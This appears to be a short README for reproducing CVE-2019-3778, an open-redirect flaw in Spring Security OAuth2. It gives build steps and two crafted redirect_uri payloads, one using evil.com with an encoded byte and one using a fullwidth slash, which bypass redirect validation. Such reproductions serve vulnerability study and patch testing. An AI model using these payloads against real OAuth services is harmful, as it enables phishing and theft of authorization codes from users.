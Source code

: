 #[CVE-2019-3778]Spring-Security-OAuth2 Open Redirection

### Description
![](./2.png)

### Environment

1. load the sql file
2. change the username and password of the database.
3. ```mvn install```
4. ```java -jar xxxx.jar```


### EXP

```http://evil.com%ff@good.com```

### PoC

```http://localhost:9090/oauth/authorize?response_type=code&client_id=ananaskr&redirect_uri=http://www.google.com%EF%BC%8F@www.baidu.com&scope=all&client_secret=123456```

![](./1.png)


